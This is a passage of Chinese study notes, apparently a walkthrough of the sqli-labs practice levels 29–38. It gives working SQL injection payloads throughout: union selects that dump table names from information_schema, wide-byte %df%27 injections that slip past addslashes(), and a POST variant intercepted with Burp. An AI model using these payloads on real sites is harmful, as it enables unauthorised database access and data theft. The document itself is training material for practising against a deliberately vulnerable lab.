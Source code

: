 ```sql
?id=1&id=-2' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3--+
```
30
---
同29<br>
"       闭合

31
---
同29<br>

32-33get类宽字节注入
===
addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。
过滤：<br>
 单引号(')<br>
 双引号(")<br>
 反斜杠(\\)<br>

32
---
%5c=\\ ___%bf%5c被识别为汉字,%27='逃逸<br>

```sql
?id=-1%df%27union select 1,database(),3--+
```
33
---
同32,"闭合<br>

34-34post类宽字节注入
===
34
---
burp抓包
在uname=(目标位置)
```sql
admin%df%27 union select 1,2 #
```
把%df%27框起来，右键-convert selection-url–url decode<br>
因为GET会自动把数据进行url解码,POST不会把数据进行url解码，所以我们需要手工操作

35
---
可以联合注入,也可以报错注入

36
---
宽字节注入
```sql
?id=-1%df%27union select 1,2,3 %23
```
37
---
同34

38
---
堆叠注入
